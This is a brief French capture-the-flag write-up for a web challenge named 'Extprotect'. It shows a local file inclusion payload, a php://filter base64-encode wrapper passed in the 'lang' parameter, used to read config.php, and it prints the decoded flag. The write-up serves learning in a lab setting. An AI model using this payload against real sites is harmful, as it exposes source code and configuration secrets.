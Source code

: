 ## Extprotect

J'ai décidé d'utiliser la même méthode que dans le challenge filtre pour ce challenge

```URL
https://extprotect.secu-web.blackfoot.dev/index.php?lang=php://filter/convert.base64-encode/resource=config.php
```
Ici le paramètre lang va nous permettre d'injecter un filtre avec le fichier config.php qui est require d'après le code source

```HTML
 include(php://filter/convert.base64-encode/resource=config.php.php): failed to open stream:
```

On remarque le serveur rajouter automatique le **.php** à la fin du fichier demandé. Du coup on retire le .php et hop

```URL
https://extprotect.secu-web.blackfoot.dev/index.php?lang=php://filter/convert.base64-encode/resource=config
```

```JS
decodedFlag = window.atob(unescape(encodeURIComponent("PD9waHAKICAvLyBDb25ncmF0eiAhIEZMQUcgSVMgWk9CezN2M25fcHIwdF9jNG43X3N0MHBfbTN9Cj8+Cg==")))
```

```PHP
'<?php\n  // Congratz ! FLAG IS ZOB{3v3n_pr0t_c4n7_st0p_m3}\n?>\n'
```
